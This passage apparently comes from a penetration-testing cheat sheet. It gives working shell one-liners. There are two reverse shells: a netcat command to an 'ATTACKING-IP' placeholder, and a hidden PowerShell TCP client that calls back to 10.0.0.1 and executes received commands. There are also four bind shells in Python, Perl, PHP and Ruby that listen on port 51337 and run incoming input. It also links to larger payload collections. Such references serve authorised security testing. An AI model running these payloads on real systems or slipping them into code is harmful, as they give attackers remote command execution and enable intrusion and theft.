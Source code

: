 #### Netcat shell
```bash
nc -e /bin/sh ATTACKING-IP 80
```

#### Powershell shell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```



There are many other ways to get a reverse shell, but these are just some examples. More can be found on sites like [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and [PayloadsAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/).

### Bind Shell
A bind shell is a type of shell in which the target machine opens a communication port or a network socket and waits for an incoming connection. The attacking machine connects to that port and gets a shell.

#### Python shell
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

#### Perl shell
```perl
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

#### PHP shell
```php
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",51337);\
socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;\
$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\
    socket_write($cl,$m,strlen($m));}}'
```

#### Ruby shell
```ruby
ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```
